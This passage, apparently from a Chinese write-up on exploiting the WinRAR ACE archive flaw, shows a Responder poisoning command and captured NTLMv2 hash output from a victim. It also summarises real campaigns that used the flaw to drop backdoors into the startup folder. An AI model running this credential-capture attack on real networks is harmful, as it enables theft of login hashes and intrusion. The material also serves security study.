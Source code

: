   ```
  python Responder.py -I eth0 -rPv
                                           __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                     |__|
  
             NBT-NS, LLMNR & MDNS Responder 2.3.3.9
  
    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C
  
  
  [+] Poisoners:
      LLMNR                      [ON]
      NBT-NS                     [ON]
      DNS/MDNS                   [ON]
  ...
  ```

  解压ACE压缩包。触发

  触发 /xxx.xx.xx.216/的地址访问。（在此处也可构造，smb服务任意文件创建）

  获取到hash

  ```
  [HTTP] Sending NTLM authentication request to xxx.xx.xx.28
  [HTTP] GET request from: xxx.xx.xx.28     URL: /
  [HTTP] Host             : xxx.xx.xx.216
  [HTTP] NTLMv2 Client   : xxx.xx.xx.28
  [HTTP] NTLMv2 Username : \admin
  [HTTP] NTLMv2 Hash     : admin:::fd0cxxxxxx05ba4:E0C4B8BA07C1BB55D0975E186D4EDEB4:01010000000000008B01EC2274CED401B2C1CB919F7872C0000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx0A001000000000000000000000000000000000000900240048005400540050002F003100370032002E00330031002E00350030002E003200310036000000000000000000
  ```





**攻击案例分析**

360情报中心的[WinRAR漏洞传播的恶意样本分析](https://mp.weixin.qq.com/s?__biz=MzI2MDc2MDA4OA==&mid=2247486933&idx=1&sn=58b7daf1d550e72dd8f952eee8610a70&chksm=ea65faa2dd1273b4cf7f470dd8d7c9e49305ff8fe178541e5fa175a4704485131480dd49af59&mpshare=1&scene=23&srcid=0225SFamVMxMie0TGgKstFqD#rd) 、[WinRAR漏洞利用升级：社工、加密、无文件后门](https://mp.weixin.qq.com/s/hAoee3Z90FyxSdomHfqZqA)

可以看到通过winrar漏洞攻击方式， 同时采用  社工、诱导等方式进行载荷投递，以及定向性的垃圾邮件散布方式嵌入无文件加密后门等攻击方式。来进行肉鸡抓取、APT攻击等相关攻击方法。

![img](https://mmbiz.qpic.cn/mmbiz_png/2AqAgxkehic8bd9gZgga0S0JJtzXTIiaaTd9wjmuiaCbVCJbphZcice18PvGFfqxktwY4KFicmXxkRE7cJ8KEBPiaQLw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

进行了典型的启动目录释放方法

